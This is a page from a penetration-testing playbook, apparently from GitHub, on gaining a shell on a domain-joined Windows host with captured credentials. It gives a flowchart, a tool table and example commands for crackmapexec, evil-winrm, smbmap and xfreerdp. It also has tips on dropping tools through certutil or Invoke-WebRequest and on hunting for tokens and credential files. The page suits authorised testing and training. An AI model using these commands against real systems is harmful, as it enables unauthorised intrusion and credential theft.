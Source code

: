 _Goal: Gain a shell or interactive session on a domain-joined system using captured or guessed credentials._

---
### **Objectives**

- Use valid credentials to authenticate to a domain-joined machine   
- Establish a stable foothold (CLI, shell, remote desktop, etc.)
- Identify the level of access and context of the current session
    

---

```mermaid
graph TD
    A[Have Valid Credentials] --> B[Find Domain-Joined Targets]
    B --> C[Attempt Authentication]
    C --> D1[SMB / WinRM / RDP Login]
    C --> D2[SQL Auth / Web Panel]
    D1 --> E[Command Execution or Shell]
    D2 --> E
    E --> F[Start Enumeration of Machine & User Context]
```

  

---

### **Techniques and Tools**

|**Technique / Protocol**|**Tool/Command**|**Notes**|
|---|---|---|
|SMB Authentication|crackmapexec smb <ip> -u <user> -p <pass>|Check access, enumerate shares or users|
|Remote Shell (WinRM)|evil-winrm -i <ip> -u <user> -p <pass>|Interactive shell with PowerShell support|
|RDP|xfreerdp /v:<ip> /u:<user> /p:<pass>|GUI session to interact with system|
|MSSQL|impacket-mssqlclient or PowerUpSQL|Authenticate to SQL instances for potential command exec|
|Local Enumeration via Shell|whoami, hostname, ipconfig, net user, etc.|Initial recon on the target box|
|Shared Folder Access|smbclient or smbmap|Browse file shares using authenticated session|
|Domain Enumeration (PowerView)|Get-Domain*, Get-Net* PowerShell commands|Confirm machine is domain-joined|

  

---

### **Example: WinRM Shell via** 

### **evil-winrm**

```
evil-winrm -i <IP> -u <USER> -p '<PASS>!'
```

  

---

### **Example: SMB Share Access with** 

### **smbmap**

```
smbmap -u <USERNAME> -p <PASSWORD> -d <DOMAIN> -H <IP>
```

  

---

### **Pro Tips**

- Use crackmapexec --local-auth if you suspect local accounts
- Drop tools via certutil, Invoke-WebRequest, or smbserver
- Verify domain membership with systeminfo or echo %userdomain%
- After connecting, check for **session tokens**, **credential files**, and **PowerShell logs**
   